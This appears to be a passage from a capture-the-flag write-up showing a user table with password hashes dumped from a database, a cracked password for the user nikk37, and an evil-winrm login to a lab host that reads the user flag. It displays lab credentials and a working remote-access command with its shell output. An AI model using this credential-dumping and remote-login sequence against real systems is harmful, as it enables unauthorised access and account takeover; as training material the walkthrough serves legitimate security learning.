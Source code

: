 ```bash
        Lauren                                                                                                                                                                               
                   
        08344b85b329d7efd611b7a7743e8a09                                                                                                                                                     
                   
           7
        William                                                                                                                                                                              
                   
        d62be0dc82071bccc1322d64ec5b6c51                                                                                                                                                     
                   
           8
        Sabrina                                                                                                                                                                              
                   
        f87d3c0d6c8fd686aacc6627f1f493a5                                                                                                                                                     
                   

(8 rows affected)
1> 

```

We got nikk37's hash. Let's crack it. 

![](@attachment/Clipboard_2022-09-13-13-26-37.png)

Found password: `get_dem_girls2@yahoo.com`

let's connect using evilwinrm. 

```bash
evil-winrm -i 10.10.11.158 -u nikk37 -p 'get_dem_girls2@yahoo.com'

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\nikk37\Documents> ls
*Evil-WinRM* PS C:\Users\nikk37\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\nikk37\Desktop> ls


    Directory: C:\Users\nikk37\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        9/13/2022   4:13 AM             34 user.txt


*Evil-WinRM* PS C:\Users\nikk37\Desktop> cat user.txt
b0ba5**********************6ca
*Evil-WinRM* PS C:\Users\nikk37\Desktop> 

```